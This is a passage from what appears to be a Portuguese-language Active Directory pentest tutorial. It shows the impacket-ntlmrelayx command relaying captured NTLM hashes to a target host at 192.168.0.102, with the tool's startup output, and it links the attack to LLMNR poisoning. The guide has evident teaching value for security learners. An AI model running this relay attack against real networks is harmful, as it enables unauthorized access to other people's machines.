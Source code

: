 De seguida iremos utilizar uma ferramenta da _impacket_ para fazer relay da _hash_ para a outra máquina com o objectivo de ganharmos acesso sobre a mesma, para que isso seja possivel o utilizador terá de ser _local administrator_ da maquina que iremos tentar comprometer.

impacket-ntlmrelayx -t 192.168.0.102 -smb2support

```bash

┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections



```

Iniciamos o ataque atraves de [**LLMNR**](../../posts/ad\_llmnr/#explora%C3%A7%C3%A3o-poc)

![](../../.gitbook/assets/LLMNRStart.png)
